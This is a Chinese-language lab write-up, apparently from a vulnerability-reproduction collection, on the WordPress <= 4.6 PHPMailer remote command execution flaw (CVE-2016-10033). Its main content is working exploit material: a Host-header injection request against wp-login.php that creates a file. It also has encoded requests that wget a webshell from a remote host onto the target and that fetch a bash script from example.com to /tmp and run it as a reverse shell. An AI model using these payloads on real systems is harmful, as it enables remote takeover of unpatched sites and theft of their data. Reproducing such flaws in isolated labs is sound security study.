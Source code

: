 ```yaml
---
layout: post
title: "WordPress <= 4.6 命令执行漏洞(PHPMailer)(CVE-2016-10033)"
date: 2017-06-17 01:33:43 +0800
image: '/assets/img/'
description: 'WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害'
main-class: 'hole'
color: '#B31917'
tags:
- WordPress
- PHPMailer
- Command-Execution
categories:
- WordPress
twitter_text: 'WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害'
introduction: 'WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害'
---
```


### 漏洞信息

 WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

### 影响版本

WordPress <= 4.6

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/wp-admin/ | admin | admin123

### 获取环境:

1.拉取镜像到本地

 ```bash
$ docker pull medicean/vulapps:w_wordpress_6
 ```

2.启动环境

 ```bash
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_6
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 WordPress 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1.把下面的HTTP报文复制到 BurpSuite Repeater 中，点击 Go 按钮，填写目标 IP 和 端口（例如, IP填 127.0.0.1 端口填 80）

```http
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}vuln}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2.访问：http://127.0.0.1:8000/vuln

看到返回状态码为 200 代表已经成功创建了 `/var/www/html/vuln` 文件

> 可在发包之前访问该地址，会出现 404

### Exp

思路： 在远程 HTTP 服务器上创建一个文本文件，通过 `wget` 下载到目标机器上

#### 向目标写 WebShell（强烈不推荐）

> 都能命令执行了，还传什么 WebShell

1.执行命令如下：

```bash
/usr/bin/wget --output-document /var/www/html/webshell.php raw.githubusercontent.com/medicean/vulapps/master/w/wordpress/6/webshell.php
```

> 注意： 
> 1. 远程 URL 中不要有 `http://`
> 2. 所有字母必须小写
> 3. 所有 / 用 `${substr{0}{1}{$spool_directory}}` 代替
> 4. 所有 空格 用 `${substr{10}{1}{$tod_log}}` 代替

报文如下(根据实际情况替换 user_login, 默认是 admin)：

```http
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}webshell.php${substr{10}{1}{$tod_log}}raw.githubusercontent.com${substr{0}{1}{$spool_directory}}medicean${substr{0}{1}{$spool_directory}}vulapps${substr{0}{1}{$spool_directory}}master${substr{0}{1}{$spool_directory}}w${substr{0}{1}{$spool_directory}}wordpress${substr{0}{1}{$spool_directory}}6${substr{0}{1}{$spool_directory}}webshell.php}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2.访问 http://127.0.0.1:8000/webshell.php

#### 反弹 Shell（推荐）

远程文本文件内容如果是 bash 脚本，可在下载到目标后，直接用 `/bin/bash` 来执行该文件

1.下载bash脚本到目标

```bash
/usr/bin/wget --output-document /tmp/rce example.com/1.txt
```

2.执行

```bash
/bin/bash /tmp/rce
```

### 相关链接

* [WordPress Core 4.6 - Unauthenticated Remote Code Execution (RCE) PoC Exploit](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)

